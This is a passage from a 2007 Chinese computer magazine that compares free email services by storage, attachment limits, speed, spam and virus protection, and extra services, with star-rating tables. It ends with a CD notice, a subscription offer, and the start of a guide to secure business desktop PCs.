如今，在满足产品功能和技术性能的基础上，邮箱的服务体验也日益多元化。一般来说，用户的重点服务有记事本、效率手册、移动设备访问和网络存储等。从用户使用的角度来看，可以从完整性、便捷性、个性化等方面进行分析评价。在完整性方面，一般包括资源利用情况、邮件数量、保存时间、客户服务等；在便捷性方面，包括效率手册、记事本、移动设备访问等。另外，以Web2.0为代表的新技术应用日新月异，由此也衍生出许多集成化的邮箱服务，比如贺卡、签名档、移动书签、个性化设置、自动转发和回复、彩信和短信、背景音乐、语音信箱、日历数据等。在这方面，随着邮箱对用户的吸引力越来越大，邮件服务商所能获得的网络人气也越来越高。

通过上述指标的归纳，我们对当前免费邮箱所能提供的服务有了一个总体了解。上述三大指标层层递进，产品功能和技术性能是基础，以新技术应用为代表的服务体验代表了更高层次的邮箱质量。

这里，我们选择了本年度比较热门的国内外邮箱：网易（126.com、163.com、yeah.net）、新浪、TOM、QQ免费邮、搜狐、中国雅虎（Yahoo）、Gmail、Hotmail等进行测试。网络环境为北京地区教育网。测试方法是登录邮箱所属网站首页输入用户名和密码，进入被监测邮箱点击查看邮件内容及功能，并在每天早、中、晚三个时段对测试账号进行读取。通过对各种免费邮箱的服务与功能做出比较，全盘体会各大邮件服务商在升级大战中的变化，从而帮助用户挑选适合自己的免费邮箱。

#### 二、2007国内免费邮箱综合评价与分析

下面，以上述评价指标为基础，对2007年比较热门的常用免费邮箱进行分析。

##### 1. 网易免费邮箱

推荐指数：★★★★★

申请地址：http://www.126.com、http://www.163.com、http://www.yeah.net

网易邮箱在国内拥有广泛的知名度，网易首页上这样描述：“网易邮箱平均每分钟就有240位新注册用户”。

可见其人气之高。登录上述申请主页，填写简单的个人资料即可进行申请，下面以网易最具代表性的126免费邮箱进行讲解。网易邮箱界面采用了Ajax技术，同等网络环境下，页面响应时间更快。登录后，可以看到界面采用了绿色清爽风格，整体干净简洁。

###### （1）基本邮箱功能

在基本邮箱功能方面，126免费邮拥有3GB存储空间，通过积分可以换取280MB免费网盘。在附件方面，网易支持单个附件20MB。登录邮箱后，点击“邮箱升级无限容量”图标按钮，然后通过手机进行简单身份验证，可以升级为无限容量。尽管要完成这个步骤并不麻烦，但会给一些用户造成不便，如果手机卡无法通过验证就不能获得免费无限空间邮箱。在实用度方面，网易邮箱支持新建文件夹、地址簿、检查邮件、邮件协议等。在集成度方面，能够实现群发功能。此外，网易提供了“双克隆”功能，用户可以在126免费邮箱中收到其他八个邮箱的邮件，还可以将其他邮箱中的通信录复制到126免费邮。这样，用户无须一个个输入E-mail地址，也无须逐个登录邮箱，一键操作就可把其他邮箱中的通信录、邮件通通克隆过来。如图1所示。



###### （2）邮箱技术性能

在邮箱技术性能方面，可以从稳定性、速度和安全三个方面来分析。首先，网易邮箱在稳定性方面表现很出色。通过与TOM邮箱、Yahoo邮箱等进行收发测试，均能快速发送和接收。在附件发送方面，网易邮箱功能明显改进，20M以内附件发送速度明显高于其他邮箱；接收邮件时，还具有新邮件的提示功能。其次，通过国际顶级卡巴斯基杀毒引擎，智能反垃圾技术，网易邮箱的垃圾邮件及病毒有效拦截率很高。为了更安全地保证用户个人隐私，网易邮箱还提供了SSL功能，通过此功能可以实现对通信内容的高强度加密，以防止黑客监听信息。另外，网易邮箱还提供了邮件过滤器、反垃圾设置、定时发信、密码保护、登录限制等。经过多年的发展和积累，网易邮箱在稳定性、速度和安全方面有了明显的进步。

###### （3）邮箱服务

在邮箱服务体验方面，网易邮箱提供了记事本、手机访问等个性化服务。在完整性方面，可以清晰地了解资源利用情况、邮件数量、保存时间、客户服务等；在邮箱新技术利用方面，网易开发了多款产品，如126免费邮箱配备了280M免费网络硬盘，为用户提供安全便捷的在线存储服务；通过标签功能，用户还可以对邮件进行分类标注。如图2所示。



###### （4）个性化服务

在个性化服务方面，有贺卡发送、记事本、壁纸下载、移动设备访问、主题信纸等，表现不错。比如，在写邮件的时候，提供了方便的图片、文字编辑功能，还可以选择不同风格的信纸，制作不同风格的邮件。写信完毕，邮件还可以被自动保存到邮件箱。如图3所示。



总的来看，网易邮箱基本功能到位，在邮箱容量、技术性能方面表现也十分突出，比较符合国人使用习惯。除了大容量和大邮件，网站所提供的技术支持服务也日益贴心，例如免费邮箱热线电话，详细而可下载阅读的帮助文档等。不过，目前网易个性化服务还只是停留在初步应用层次，网易火热的社区人气似乎还没有渗透到邮箱服务中来。不过，从广告不断增多的趋势也可以看出网易在这方面开发的决心。例如，登录时，输入用户名密码后要显示一个广告，用户需单击下方按钮方可进入邮箱；在邮箱内也有广告，阅读邮件时旁边会显示网易新闻中心的链接等。

##### 2. TOM免费邮箱

推荐指数：★★★★

申请地址：http://mail.tom.com

TOM邮箱的前身是163.net免费电子邮箱，在邮箱技术方面有很优良的传统。进入http://mail.tom.com申请界面，即可进行免费注册。注册过程十分方便，申请过程简单而快捷。注册一个TOM邮箱后，可以同时使用论坛、聊天、相册、博客、贺卡、TOM秀、游戏世界等众多的服务。与国内众多免费邮箱一样，TOM支持POP3协议和使用第三方邮箱软件进行邮件的发送和接收，并提供手机短信通知服务。

###### （1）基本邮箱功能

TOM的空间容量为1.5GB，附件大小为30MB特大附件。在附件大小方面，应该是目前比较顶尖的中文邮箱了。在实用度方面，TOM还提供了个人地址簿、地址本搜索打印等服务，但没有提供新建文件夹功能。如果有新邮件到达时，TOM还可以通过免费短信提醒用户，每个月可以免费发送30条短信提醒，超出的邮件不再发送短信提醒。在集成度方面，TOM支持团体邮件群发功能，可以直接给朋友、亲人、网友、同事等发送邮件。此外，使用该邮箱可接收管理其他邮箱地址的邮件。只需单击“我的配置”选项下的“POP邮件”，在出现的网页界面中输入接收邮箱的服务器名、用户、密码以及端口号等，即可设置6个POP账号。如图4所示。



###### （2）邮箱技术性能

在邮箱技术性能方面，TOM邮箱继承了163.net电子邮局的优点，在稳定性、速度和安全等方面有不错的表现。在接收邮件测试中，通过126、Yahoo等电子邮件给TOM邮箱发送邮件测试，均能很快收到对方发来的邮件；在发送邮件测试过程中，普通邮件发送比较顺利，但附件比较大时比较难以发送，30MB附件的潜力还没有完全发挥出来。在安全方面，TOM邮箱采用了卡巴斯基杀毒引擎，包含了邮件过滤器、防垃圾邮件、邮件杀毒等功能。通过强大的自定义过滤器，用户可以自行设定过滤器规则，例如，可设定符合条件的邮件自动转发指定用户、设定邮箱在接收邮件后回复的内容、设定某些邮件地址发来的邮件转到指定的文件夹或发通知到手机等。另外，TOM提供了密码保护功能，用户可以很方便地进行设置和修改。目前，TOM免费邮箱还没有提供网络存储功能。

##### 3. 新浪免费邮箱

- 推荐指数：★★★
- 申请地址：http://mail.sina.com.cn

申请新浪免费邮件时，登录该站点即可按照步骤进行申请。因为新浪目前用户比较多，而且登录过程还区分邮箱名和会员名，因此，目前要想申请一个比较满意的用户名，还比较困难。进入邮箱后，会发现广告有点多，但界面比较温馨。如图5所示。



首先，在基本邮箱功能方面，新浪免费邮箱提供的空间容量为2GB，附件大小为15MB，支持导入导出地址栏等。在实用度方面，包括自建邮件夹、联系人地址簿、支持POP3和SMTP邮件协议等。通过POP邮箱设置，可以接收来自其他邮箱的邮件。

其次，在邮箱技术性能方面，通过与网易邮箱、TOM邮箱、Yahoo邮箱等进行互相收发测试，发送普通邮件时，偶然出现了一次发送错误的提示；当附件超过1MB时，感觉速度明显降低，可能和网络环境有一定关系。在稳定性方面，本次测试的邮件几乎都能正常接收。如果邮件中带有附件，邮箱会提示使用趋势科技的杀毒软件进行处理，确认无毒后可以安全下载。

> > 小知识
> 目前，在大部分免费邮箱中，附件查毒功能只针对通过Web方式登录邮箱的用户进行附件下载前的病毒检查，如果使用邮件客户端软件进行邮件的收发，最好选择相应的单机反病毒软件。

另外，在邮箱服务体验方面，新浪免费邮箱提供了手机短信提醒、新浪纸条箱、每日英语等服务。由于新浪在新闻资讯方面具有很大的优势，在邮箱首页，还提供了专门的“今日资讯”、“社区精品”、“新鲜博客”等页面，但这些内容很可能会干扰用户视觉。新浪免费邮箱没有提供记事本、效率手册等功能，个性化功能略显单调。该免费邮箱服务比较到位，帮助文档比较详细，并且为用户提供在线答疑服务，帮助用户解答相关问题。

##### 4. QQ免费邮

- 推荐指数：★★★★
- 申请地址：http://mail.qq.com/

QQ免费邮箱与QQ聊天软件紧密地结合在一起，给许多网友提供了方便的个性化服务。使用该邮箱之前，可以用QQ号和密码直接登录并激活邮箱，进入邮箱后申请一个邮箱名作为邮件地址，登录后能够立即通知好友。另外，也可以使用手机免费登录邮箱，这些细微的服务充分体现了QQ时尚、人性化的特点。

缝集成；具有完善的邮件收发、通讯录等功能，直接点击QQ面板即可登录，通信录功能则能够同步导入导出QQ好友，让人感觉十分贴心。此外，通过QQ邮箱可以接收来自其他邮箱的信件，并像操作QQ邮箱的邮件一样对这些邮件进行阅读、回复、转发。通过群邮件功能，可以充分利用QQ群的资源，QQ群成员回复的邮件内容将会聚合在同一个邮件中，对群内全体成员可见。

其次，在邮箱技术性能方面，通过其他邮箱进行收发测试的过程中，一般都能进行正常操作，而且在QQ面板上有新邮件提示，整体性能比较稳定。在安全方面，QQ邮箱通过以下措施来保证邮箱安全：采用了卡巴斯基杀毒引擎，为用户提供全面的反病毒防护，可自动查杀超过十一万种病毒，能检测出各种压缩文件中的病毒；通过架设网络防火墙、DIV+JS引擎、自动清除cache等措施以及创建各种条件的过滤器，可以对在保证邮件安全的基础上，对邮件进行分类或处理。如图6所示。



> > 小技巧
> 如果在收件箱中收到垃圾邮件，首先在邮件列表中勾选需要拒绝的邮件，点击“举报垃圾邮件”按钮，则会将该邮件移到垃圾邮件箱，并将发件人地址加入黑名单，以后就不会收到此发件人发送的垃圾邮件。如果使用电子邮件客户端将邮件下载到了本地，并且发现了垃圾邮件，可以用客户端软件中提供的工具来设置拒收。

再次，在邮箱服务体验方面，许多QQ服务被开发出来，例如自动发送QQ邮箱贺卡、自动订阅新闻、设置QQ邮箱信纸、设置个性签名、设置彩色主题、截屏等。通过“文件中转站”，能够提供大文件网络临时存储的服务，标准服务下可以提供1GB的存储容量和上传最大500MB的文件，文件上传后能够保存7天。另外，可以随时打开QQ邮箱记事本，随意粘贴记录便签、日志、照片等等。

总体而言，QQ邮箱在本年度有很大进步，尤其是与QQ的无缝集成，给广大QQ用户提供了更加贴心的邮件服务。QQ邮箱帮助文件也十分详细，用户在使用过程中碰到疑问时，可以通过帮助文件轻松解决。不过，QQ一贯给人以娱乐和聊天的感觉，而且QQ号码也代表了许多个人隐私，在比较正式的场合，QQ免费邮箱的潜力还有待挖掘。

##### 5. 搜狐与搜狗免费邮箱

- 推荐指数：★★★
- 申请地址：http://mail.sohu.com, http://mail.sogou.com

搜狐公司在其网站上提供@sohu.com域名的“闪电邮”，同时，在其搜索网站——搜狗上提供@sogou.com域名的免费邮箱。两种免费邮箱既有相同之处，也有非常大的差异：两者都能够收发10MB大小的邮件，但前者只有50MB的容量，而后者容量高达2GB。搜狐@sohu.com免费邮箱注册很方便，输入简单资料即可完成注册，不过，本次测试中，搜狗免费邮箱注册申请的步骤显得比较麻烦，尤其是安全问答设置方面始终提示安全答案不正确，因此，在@sogou.com站点并未能顺利注册。@sohu.com邮箱整体界面采用了橘红的风格，有些游戏界面的感觉，看起来十分炫目。闪电邮界面如图7所示。



在邮箱技术性能方面，搜狐免费邮箱添加了多级反垃圾过滤，能够有效防范垃圾邮件。用户收到垃圾邮件时，点击信件上方的“垃圾信举报”，将其加入到搜狐的垃圾信处理中心，同时，此封垃圾邮件将被自动删除，而且在通过鉴别处理后，将会加在系统设置里，使其他用户免受其害。在邮箱服务体验方面，SOHU在闪电邮件的基础上加入了全新的“手机邮件”功能，用户可以随时随地用手机接收、回复、编写、发送邮件，由于手机邮件是增值服务，所以每月收费15元。总的来说，搜狐公司的两款免费邮箱功能都过于简单，仍有许多不足之处需要改进，比如繁琐的注册过程很容易打击用户的积极性。

##### 6. 综合评价

通过对上述五款免费邮箱的测试，列表如下：

| 名称 | 空间容量 | 基本功能 | 速度和稳定性 | 服务和体验 | 总体评价 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 网易 | 3G[无限] + 20M | ★★★★★ | ★★★★ | ★★★★ | ★★★★★ |
| TOM | 1.5G + 30M | ★★★★ | ★★★★ | ★★★ | ★★★★ |
| QQMail | 2G + 20M | ★★★★ | ★★★★ | ★★★ | ★★★★ |
| 新浪 | 2G + 15M | ★★★ | ★★★★ | ★★ | ★★★ |
| 搜狐搜狗 | 2G + 10M | ★★★ | ★★★ | ★★ | ★★ |

通过对国内五款免费邮箱的测试，可以看到，在满足产品功能和技术性能的基础上，邮箱的服务体验也日益多元化，而邮箱服务之间的差距也日益加大。首先，网易明显处于第一阵营。2007年以来，网易免费邮箱在存储空间上动作不断，并在附件功能上进行了优化，比较适合国内用户的使用习惯。同时，网易邮箱支持众多功能，收发速度极快，个性化的定制及个人助理功能也十分吸引人。其次，在第二阵营中，QQ邮箱后来居上，目前提供了许多个性化的服务，对于众多的QQ用户来说，是一个不错的选择；如果用户习惯浏览新浪新闻，新浪提供的2GB免费邮箱也是一个不错的选择；TOM邮箱清新亮丽的风格给人印象深刻，个性化服务内容丰富、实用，各方面都比较均衡，整体表现也比较优秀。整体而言，这些免费邮箱提供的空间都在1.5GB以上，但附件大小明显偏小，即使是宣称的附件大小也未必能发挥极限，上传速度明显偏慢，这应该是目前所需要重点解决的问题之一。

#### 三、2007国外中文免费邮箱综合评价与分析

通过对本土免费邮箱阵营的分析，我们对当前国内免费邮箱市场有了一个大致的了解，但用“狼来了”形容国外中文免费邮箱的发展状况也不为过。当免费邮箱容量突破G级甚至达到“无限容量”的极限之后，作为用户，我们更看重的是服务商的服务持久度、技术能力和服务能力，更在意的是邮箱功能和服务的稳定性。最近，国外电子邮箱巨头也是动作频频，继Gmail注册完全开放以后，雅虎也推出了免费无限量的邮箱，在免费邮箱市场掀起了阵阵波澜！下面，我们选择比较典型的Gmail、雅虎、Hotmail等三款国外免费中文邮箱进行比较分析。

##### 1. 超级个性化服务：Gmail免费邮箱

- 推荐指数：★★★★★
- 申请地址：http://www.gmail.com

2007年2月14日，Google公司全面放开Gmail邮箱，用户可以在页面上自由注册。在近几年发展中，Google推出了近三十种和账号相关的服务，而针对Gmail的整合服务则是其重中之重。

首先，在基本邮箱功能方面，Gmail目前提供的空间容量达2.8GB，附件大小为20MB。为了方便网友之间的沟通，Google推出了类似QQ的即时通信软件Google Talk（简称Gtalk），下载安装Gtalk后，只要使用Gmail账号就可以直接登录了。与QQ等即时通信软件或其他邮箱不同的是，除了能够使用客户端聊天，Gmail邮箱也可以直接和在线好友即时聊天。该软件界面非常简洁，还可以进行语音聊天，软件界面上几乎没有广告的骚扰。Gtalk的联系人与Gmail通信录无缝结合在一起，还可以使用Gmail邮箱来保存Gtalk的聊天记录。另外，还可以设置聊天记录是否保存到邮箱中，以及主界面显示联系人的个数等。通信录功能和聊天功能紧密地结合在一起，每当邮箱收到新邮件或者发送新邮件时，都可以自动将收件人添加到通信录中。邮箱界面如图8所示。



其次，在邮箱技术性能方面，通过大规模的用户测试，Gmail表现十分优异。通过设置，可以方便使用Gmail邮箱来收取非Gmail邮箱的邮件。要实现这个功能，首先单击右上角的“设置”按钮，然后选择“账户”选项卡，就会看到“从其他账户收取邮件”，然后点击“添加其他邮件账户”，即可开始添加非Gmail邮件账户。Gmail 的过滤规则使用也很方便。搜索时，关键字以单词为基本单位，以符号（如“.”，“@”，“+”）作为分隔符，将此特性和标签结合起来可以非常方便地进行邮件管理。Gmail会忽略用户名中“+”以及后面的部分，实际上这些信还会寄到这里。

在安全方面，Google的垃圾邮件识别功能相当强大，无需任何设置就能自动过滤大部分垃圾邮件。用户有两种选择：一种是让Gmail接管信箱，一种是让Gmail中转的时候帮助清理垃圾。现在大多数邮件都支持邮件转发，进入Gmail的“设置”界面，单击“转发和POP”选项卡，然后会要求输入转发的邮件地址，在这里输入Gmail信箱地址，并选择“删除Gmail副本”，这样可以让Gmail完全接管这些信件。如图9所示。



再次，邮箱服务体验方面，Google推出许多个性化的服务。使用Google日历进行事项管理，用户可以轻松添加活动和邀请，与亲朋好友实现信息的共享。更值得一提的是，通过网络“笔记本”服务可以将有用信息保存下来。方法如下：下载并安装扩展插件后，用户不必离开浏览的网页即可访问Google笔记本，并能够执行诸多操作，如查看笔记本、整理成不同的段落、添加自己的笔记等。使用过程中，只需点击浏览器状态栏上的笔记本图标，就可打开和关闭Google笔记本。Google笔记本对信息的管理非常简单，所有操作只需点击页面上的“工具”下拉菜单即可完成，在这里可以方便地新建、添加、修改记事本，还可以直接打印记事本中的文章内容。通过权限的授权操作，可以邀请其他用户在笔记本上一起工作，让他们编辑笔记本并添加自己的笔记。

以上服务只是和电子邮件相关的几种典型应用，通过对Gmail实用工具和实用技巧的灵活运用，用户一定会有更多的惊喜。因为，用户不仅可以轻松拥有一个强大而灵活的邮箱，而且也拥有了更多的超值服务。现在，许多网络服务提供商开始以电子邮件服务为中心，打造通信集成平台。也就是说，未来电子邮件服务要想继续生存，必须走整合之路，实现与IM、日历、搜索等功能的集成，这似乎可以给国内邮件服务提供商许多启示。不过，尽管Gmail提供了许多优秀的服务，但在本土化改造上，还存在不少问题，比如邮箱的界面目前仍然比较简陋，很多操作与国内用户的习惯还存在一定差距。

> 小技巧

“Google文件” 是基于网络的免费文字处理和电子表格程序，它提供了文档的最新版本服务，可以避免在收发电子邮件过程中遇到的不同版本表格或文字问题。“Google文件”网站地址为http://docs.google.com，在Google文件中，用户可以使用在线编辑器来设置文档格式和进行拼写检查等操作；可以编制项目列表、按列排序、添加表格/图像/注释/公式、更改字体以及更多操作。

##### 2. 强势出击：雅虎免费邮箱

- 推荐指数：★★★★★
- 申请地址：http://cn.mail.yahoo.com或http://mail.yahoo.cn

2007年9月10日，中国雅虎正式对外放了国内首款无限容量的“终身邮箱”，并在许多网站大打广告推广，鼓励网民抢注这个以@yahoo.cn为结尾的新邮箱。对于用户来说，除了启用新域名@yahoo.cn，原来的@yahoo.com.cn邮箱仍然可以单独使用。登录雅虎免费邮箱注册页面，只需要填写一些简单的信息即可，并且在填写过程中会自动通过AJAX技术帮助检测信息填写是否符合要求，整个注册过程简单而流畅。



无限容量，附件大小为20MB。在实用度方面，雅虎邮箱可以新建文件夹、地址簿、自动检查邮件、支持邮件协议等。在集成度方面，还包括群发、导入导出地址等。在主界面上，列出了专门的“地址簿”、“效率手册”、“记事本”等选项卡。通过Yahoo免费邮箱，可以和Palm Desktop、Outlook、Netscape/Thunderbird等地址簿交换资料，最大限度的利用了用户资源。但在界面美观性方面，雅虎的邮箱界面有些简洁，甚至可以说有些简陋，布局上与大多数邮箱别无二致，但容易给人有点凌乱的感觉。

其次，在邮箱技术性能方面，雅虎采用了DomainKeys技术，并与Norton杀毒软件进行长期合作。下载来自其他邮箱的附件时，雅虎邮箱会自动进行病毒扫描，确认没有病毒后提示用户进行下载。在密码保护方面，Yahoo免费邮箱提供了多种密码修改方式，但在通过密码提示答案修改密码方面，需要经过人工查询修改，周期长而且修改成功率很低。

为了防范垃圾邮件，雅虎提供了垃圾邮件过滤功能，可将大部分的垃圾邮件直接发送到“垃圾邮件”文件夹中。如果偶尔发现邮件被漏判或者错判，可以点击邮件上方的“这是垃圾邮件”或者“非垃圾邮件”按钮进行修正。通过设置替身邮功能，可以创建和管理替身邮地址来保护原有电邮地址远离垃圾邮件。

再次，在邮箱服务体验方面，雅虎邮箱加入了记事本、效率手册等功能，其中效率手册的功能类似于Outlook中的日历，可以帮助用户进行日常的计划安排；而记事本功能则可以把一些日常信息保存于此，随时提醒用户。此次中国雅虎的终生邮箱升级渗透了阿里巴巴集团资源，比如整合了“我的淘宝”功能，足见其本土化趋势进一步加强。另外，注册雅虎邮箱后，用户就可以同时使用这个账号申请雅虎的其他服务，包括相册、空间以及雅虎通等。登录雅虎邮箱后，还可以在左侧的菜单中看到其他一些服务项目的链接，包括相册、空间等。不过从整体功能的应用来看，雅虎邮箱对于其他产品的整合还比较有限，只是提供了简单的链接，并没有在功能上实现交叉等实质性的整合。

总的来看，雅虎的邮箱在全球来讲是一个拳头产品，对雅虎享誉全球的声望功不可没。但由于种种原因，中国雅虎邮箱的市场份额目前远远落后于网易。中国雅虎经历了几年摇摆不定的定位后，寻求通过邮箱进行突破是个不错的选择。尽管雅虎邮箱功能强大，但在其本土化过程中，还有许多细节需要解决，比如雅虎接收或发送的中文邮件会莫名其妙地变成了乱码；在个性化空间上，用户是否愿意在个人邮箱中书写博客，也需要服务商仔细考虑而加以改进。

##### 3. 活力十足：Windows Live Hotmail邮箱

- 推荐指数：★★★
- 申请地址：http://mail.hotmail.cn

作为软件巨鳄微软公司推出的免费邮箱，Hotmail免费邮箱自然不容小觑。2007年以来，微软继续加大了对Hotmail服务的开发力度，并正式推出新一代邮件服务——Windows Live Hotmail，这也是在1996年进入网络邮件产业以来最重大的一次升级。用户注册Hotmail邮箱之后，就可以马上使用微软推出的许多附加业务，如MSN、Windows Live writer等。Hotmail邮箱不断改进使用功能，也使得其在中国越来越受到用户的青睐。

登录http://www.hotmail.com，通过简单的注册步骤即可获得Windows Live Hotmail账户，该账户可通用于MSN、Office Live和Microsoft Passport站点。当然，用户也可以使用现有的MSN Hotmail账户登录。申请完毕，可以选择进入新版邮箱界面（Windows Live Hotmail 完全版）或经典版，如果用户对当前界面不习惯，单击左下方的按钮即可来回切换界面。

首先，在基本邮箱功能方面，邮箱空间容量达到了惊人的5GB，附件大小则仍然保持在15MB。由于新版邮箱采用了Ajax技术，登录界面安排也更加理想，总体感觉新版邮箱的用户界面和Outlook非常相似。在新一代Hotmail服务中，可以支持邮件菜单和多标签界面，搜索功能也进行了改进。对于收件箱、已发送邮件等文件夹的邮件，可随意拖动、放置和组织归类，其拖放式的组织管理功能非常高效。新增的邮件及网页内容搜索也是新版Hotmail的一大亮点，在界面上方的搜索框内输入需要查询的邮件地址，单击“邮件”按钮后即可快速返回结果。另外，用户还可以将联系人导出为 CSV 文件格式，与Outlook等软件可以通用。如图11所示。



其次，在邮箱技术性能方面，首先进行收发邮件的稳定性测试。通过与其他邮箱的相互测试，Hotmail邮件的收发延迟时间比较长，其中在网内向126.com发送一封邮件后，对方等待17分钟才收到邮件。这可能和Hotmail邮箱服务器在国外有关。在登录速度方面，经多地点测试明显低于国内免费邮箱。

在安全方面，对于正在浏览的邮件内容，Hotmail也提供了相应的安全保障措施：比如邮件是否可疑、是否需要标记为安全等。新版Hotmail还加强了垃圾邮件的管理功能，用户可以通过设置垃圾邮件账户，阻止接收该账户的所有邮件，还可以向微软举报该账户，使其加入微软的垃圾邮件过滤器，以保护其他用户不受垃圾邮件骚扰。从邮箱页面右上角单击“选项”→“更多选项”命令后，进入邮箱配置界面；然后，在“垃圾邮件”功能栏下可以看到“过滤器及报告”以及“安全和阻止发件人”两个设置选项。两项安全功能都提供有非常详尽的安全策略定制，可有效保护邮箱被垃圾邮件骚扰。

再次，在邮箱服务体验方面，用户可为自己的收件箱选择不同的颜色主题。通过与Windows Live Messenger和Spaces的整合，用户可以实现联系人信息、好友状态、邮件和即时通信的无缝集成，实现随时随地地在线沟通。用户可以直接从收件箱查看MSN Messenger联系人是否在线，并能够直接通过Messenger进行即时对话。而且，Windows Live Hotmail用户可免费使用新的Outlook Connector Beta在Microsoft Office Outlook 2003/2007中访问Hotmail邮件。此外，新版Hotmail支持通过移动设备来收发邮箱，使用前需要在移动设备端进行必要的配置。

> 小技巧

使用安全工具栏的技巧。当一封邮件经过多重安全检查到达Windows Live Hotmail收件箱后，位于邮件上方的安全工具栏会以不同的颜色标识不同安全等级的邮件：白色表示邮件来自认识的朋友，黄色表示邮件来自不认识的人，红色表示邮件存在潜在的欺诈性危险。点击“标记为不安全”链接后，垃圾邮件会被自动删除，并继续拦截此邮件发件人发送的邮件。

总体而言，新版Hotmail免费邮箱在人性化方面明显提高，并加强了与其他微软组件的联系，比如轻松导入Outlook联系人等。除此之外，其快速的操作反应以及非常细节性的安全保障功能，也将会赢得用户的青睐。比较欠缺的是速度和稳定性方面，如果要吸引更多的中文用户，本土化方面依然需要加强。

通过对上述国外免费中文邮箱的测试，可以总结如下：

| 名称 | 空间容量 | 基本功能 | 速度和稳定性 | 服务和体验 | 总体评价 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| Gmail | 2.8G + 20M | ★★★★ | ★★★★ | ★★★★ | ★★★★ |
| Yahoo | 无限空间 + 20M | ★★★★★ | ★★★★★ | ★★★★★ | ★★★★★ |
| Hotmail | 5G + 10M | ★★★★ | ★★★ | ★★★ | ★★★ |

通过对国外免费中文邮箱的测试，可以看到Yahoo免费邮箱和Gmail免费邮箱表现明显强势，而Hotmail也让人印象深刻，这些邮箱都捆绑了大量的相关服务，通过强大的平台资源和人气，不断提升其核心竞争力。如果用户追求超大空间，而且需要收发大块头的附件，那么中国雅虎免费邮箱是一个很不错的选择。对于上述国外邮箱，不约而同还存在许多本土化问题，比如乱码问题、中国用户的操作习惯问题、姓和名分开填写等。

通过国内外免费邮箱的综合比较，我们也可以看出，国外免费邮箱在把握用户心理方面明显高出一筹，在提供优质服务的基础上，针对邮箱广告方面的开发也明显要多于国内免费邮箱。随着技术的发展，网易等国内电子邮件提供商充分利用本土化优势，已经能够和国外厂商分庭抗礼。

### 光盘粘贴页

### 光盘须知

2007年，中国音像协会光盘工作委员会统计，当年中国光盘复制行业总产值约80亿元，而其中CD光盘及DVD光盘占比仍占半数以上，部分企业还具备生产VCD光盘的能力。但近两年来，以闪存为代表的移动存储设备市场不断壮大，音像市场也正朝着以CD光盘和DVD光盘为主要载体的方向发展，DVD光盘和蓝光光盘逐渐取代CD光盘成为主流，而这两者之间还有一段过渡时期。

### 光盘使用提示

光盘放入驱动器后稍等片刻，画面会自动进入主界面。如果您是第一次使用，可以在画面出现“Press any key to start”时按任意键开始；如果使用过程中出现错误提示，请按“Enter”键返回主菜单。

如果您是第一次使用，请在光盘启动后自动进入的“Setup”界面中进行系统设置，设置完成后点击“Next”即可进入主界面；也可以选择“Skip”跳过设置，直接进入主界面。

在主界面中点击相应的图标即可进入对应的子界面进行操作。

在主界面中点击“返回上级”按钮即可返回到上一级界面；点击“退出”按钮即可退出程序。

在子界面中，点击“返回上级”按钮即可返回到主界面。

光盘中的PDF文件需要使用Adobe Acrobat Reader或其他PDF阅读软件，否则无法正常阅读。

光盘中的文件均为电子版，如需打印请使用彩色打印机；为保证光盘安全，请勿将光盘暴露在阳光下或高温环境中；请勿使用硬物划伤光盘表面，以免影响使用。

### 邮购2008全年《电脑爱好者》（普及版）

人人送

定价：6.8元 年价：81.6元

- 1年免费使用瑞星杀毒软件, 价值120元
- 轻松英语学习卡, 价值50元

#### 再送360个大奖 机会非比寻常

- A. 卓越网购物卡一张 (此卡无任何限制, 可购买任何产品) (价值100元), 共100张
- B. 摄像头一只 (价值80元), 共30只
- C. 512MB 金士顿SD卡一块 (价值65元), 共50块
- D. 光电鼠标一只 (价值50元), 共30只
- E. 《电脑爱好者》15周年珍藏DVD光盘一套 (价值38元), 共100套 (此套光盘收藏电脑自普及以来到现在全部历史, 1亿文字的电脑知识, 5万个经验技巧, 1万个故障解答, 1万篇专题文章, 5000个各类软件, 100本电脑图书, 学用电脑的知识海洋; 《电脑爱好者》自创刊到现在, 历史上所有的期刊, 图书, 光盘读物内容总集; 珍藏性无法估量, 业内难以超越的宏篇巨制)
- F. 当当网购物卡一张 (价值30元), 共50张

#### 活动说明

- 活动时间：2007年9月1日～2007年12月31日 (邮局汇款以邮戳为准, 网上订阅以下单时间为准)
- “再送”部分礼品按照到款时间和A~F的顺序依次送出, 每人仅限一件。
- 在汇款单附言栏注明2008普及版杂志, 同时留下电子邮件地址、联系电话。杀毒软件、购物卡的用户名、密码将通过电子邮件发送。
- 自汇款之日起计算, 7个工作日后拨打010-68259307/68259457查询汇款, 请核对汇款人地址、姓名、邮编是否准确, 如有错误, 请及时拨打010-68258784进行更改。
- 本活动仅限于在杂志社邮购的读者, 邮局订阅等其他渠道不属此列。

## 安全至上 ——商用台式PC信息安全导购



◆文/方成亮

近年来，PC的安全问题受到了各界尤其是商业用户的高度关注。对于大多数企业用户而言，仅仅在采购笔记本电脑时关注安全问题还远远不够，因为员工在日常办公时还是以使用台式机电脑为主，而且台式机往往保存着大量的公司商业秘密信息。现在，明智的企业采购者开始对带有安全功能的台式PC展现出浓厚的兴趣。而这种安全可以衍生为数据存储安全与信息保密安全两个层面，这也是当前PC厂商在推出安全台式PC时所重点研发的内容。

#### 一、安全无处不在

以往的商用台式PC安全系统，是由防火墙、入侵检测和病毒防范“老三样”为主构成，其特点是“以防为主、封堵结合”。但是，看看现在的商用台式PC应用环境：装有设计图纸的电脑硬盘不翼而飞，很快市场上出现了相似的产品；似乎无意间走过的“同事”悄然记下你正输入的密码；一个高级主管离职，用U盘带走一些资料，导致企业大客户大量流失；当员工正准备一份重要标书时，黑客已通过互联网悄无声息间窃取了企业的商业机密……这些看似只有在好莱坞大片中才会出现的场景，如今每天都在真实的商业环境中上演，完全是被动地防御，结果往往是防不胜防。

分析人士表示，随着越来越多的厂商涉足于安全PC领域，必然导致竞争加剧，但目前大多厂商都停留在软件加密的层面上，必将最终形成低水平的同质化竞争。信息安全技术的竞争是面向国际化的竞争，要求厂商必须从根本出发，投入更多的研发精力，从软件、硬件、网络等方面推出更加适合本土市场的安全技术和产品。从用户需求角度来看，厂商也面临着复杂多变的信息安全问题，需要有不同的安全解决方案来满足不同的安全需求。现在，以联想、惠普、浪潮、方正等为代表的大型PC厂商已经在安全PC领域冲破了瓶颈。

现在，厂商的技术发展应当根据实际需求来进行。我们访问四位不同行业的IT管理员，他们的回答无疑表明了当前安全PC的重要性，以及中小企业用户最切合实际的安全性需求。

柳先生：房地产中介公司

